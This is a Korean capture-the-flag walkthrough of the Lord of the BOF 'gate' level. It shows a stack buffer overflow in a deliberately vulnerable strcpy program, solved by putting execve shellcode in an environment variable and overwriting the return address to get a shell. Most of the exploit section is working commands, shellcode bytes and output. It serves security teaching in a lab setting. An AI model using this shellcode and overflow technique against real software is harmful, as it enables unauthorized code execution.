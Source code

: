 ============================================================================================================
[lob] gate
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :환경 변수 쉘코드 등록;

    :환경 변수 주소값 확인;

    :RET 주소를 환경 변수 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
    */

    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte) <- argv[1]
    SFP     (4byte)
    RET     (4byte)
    ---------------
    HIGH    
    ===============

|

Segmentation fault
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ bash2

    $ ./gremlin `python -c "print 'a'*256"`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaa

    $ ./gremlin `python -c "print 'a'*260"`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaa

    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 합니다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`


|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득합니다.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
        char *addr;
        addr = getenv(argv[1]);
        printf("address %p\n", addr);
        return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbffffc4c


|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------


.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte) <- "\x90"*256
    SFP     (4byte)   <- "\x90"*4
    RET     (4byte)   <- shellcode 환경 변수 주소
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET 주소를 환경 변수 주소로 변경하여 해당 쉘코드가 실행되도록 합니다.

.. code-block:: console

    $ ./gremlin `python -c 'print "\x90"*260+"\x4c\xfc\xff\xbf"'`
    
    bash$ whoami
    gremlin
    bash$ my-pass
    euid = 501
    hello bof world

